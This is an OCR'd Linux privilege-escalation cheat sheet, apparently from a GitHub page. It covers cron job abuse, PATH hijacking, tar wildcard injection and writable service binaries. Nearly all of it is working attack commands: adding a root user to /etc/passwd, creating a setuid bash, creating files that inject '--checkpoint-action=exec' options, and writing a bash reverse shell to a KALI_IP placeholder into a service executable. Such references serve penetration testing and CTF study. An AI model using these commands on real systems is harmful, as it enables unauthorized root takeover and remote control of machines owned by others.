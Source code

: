 ### writable /etc/crontab

#### A Replace script

```shell
* * * * * root /tmp/malicious_script.sh
```

#### B Writeable Path is in PATH

_**For example, if backup.sh uses "tar", we can modify the PATH to have our "tar" run**_

```shell
# 1 Create our "tar" in the writeable path Here, we can write in /dev/shm
echo '/bin/bash' > /tmp/tar
chmod +x /tmp/tar

# 2 modify PATH
export PATH=/tmp:$PATH
* * * * * root backup.sh # (backup.sh uses tar command inside it for example)

# Can replace with any payload i.e reverse shell, add root user, copy of bash etc
```

#### C Wildcards used

_**If the cron job executes a command with wildcards (e.g.,****&#x20;****`tar -cvf /tmp/backup.tar *`****), you can exploit this by creating malicious files.**_

```shell
# 1 After cding into the writeable directory 

# 2 Create the payload
echo '#!/bin/bash' > /tmp/malicious.sh
echo "" >> /tmp/malicious.sh

# A add root user
echo 'echo "r00t:ShuKpZV7v9akI:0:0:root:/root:/bin/bash" >> /etc/passwd' >> /tmp/malicious.sh
# or
# B root bash
echo 'cp /bin/bash /tmp && chmod +s /tmp/bash' > /tmp/malicious.sh

# 3 Touch the files
touch '/tmp/--checkpoint=1'
touch '/tmp/--checkpoint-action=exec=sh malicious.sh'
```

### writeable service

_**If you find writable binaries or scripts, you can write reverse shell**_

```shell
echo 'bash -i >& /dev/tcp/KALI_IP/1234 0>&1' > /path/to/service_executable
chmod +x /path/to/service_executable
```
